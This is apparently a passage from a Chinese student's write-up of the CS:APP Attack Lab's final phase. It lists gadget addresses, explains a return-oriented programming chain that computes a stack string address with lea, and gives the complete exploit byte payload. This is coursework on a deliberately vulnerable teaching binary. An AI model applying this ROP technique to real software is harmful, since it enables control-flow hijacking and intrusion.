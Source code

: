 函数 | 指令
--- | ---
`getval_311` | `movl %edx, %ecx`
`addval_187` | `movl %ecx, %esi`
`getval_159` | `movl %edx, %ecx`
`addval_487` | `movl %eax, %edx`


*好吧我承认我这里没思路了……*

上网看了一下答案，有一个重要的工具是`add_xy`里的`lea (%rdi,%rsi,1),%rax`。为此我们的思路为：

- `%rsp -> %rax -> %rdi`，得到一个栈上的地址；
- `pop %rax(%eax) -> %edx -> %ecx -> %esi(%rsi)`，从栈上获得一个偏移量；
- `%rdi+%rsi -> %rax -> %rdi`，此时加起来的值要恰好指向我们在栈上的字符串地址。

所以序列为：

指令 | 起始地址
--- | ---
`movq %rsp, %rax` | `0x401a06`
`movq %rax, %rdi` | `0x4019a2`
`popq %rax`		  | `0x4019cc`
`movl %eax, %edx` | `0x401a42`
`movl %edx, %ecx` | `0x401a34`
`movl %ecx, %esi` | `0x401a27`
`lea (%rdi, %rsi, 1), %rax` | `0x4019d6`
`movq %rax, %rdi` | `0x4019a2`
`touch3...`		  | `0x4018fa`

在`0x4018fa`的后面放置字符串。获取到的rsp恰好是第二个地址的位置，中间相隔8个地址和1个偏移量，所以偏移量等于9*8=72=0x48。

```
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20

06 1a 40 00
00 00 00 00
a2 19 40 00
00 00 00 00
cc 19 40 00
00 00 00 00

48 00 00 00
00 00 00 00

42 1a 40 00
00 00 00 00
34 1a 40 00
00 00 00 00
27 1a 40 00
00 00 00 00
d6 19 40 00
00 00 00 00
a2 19 40 00
00 00 00 00
fa 18 40 00
00 00 00 00

```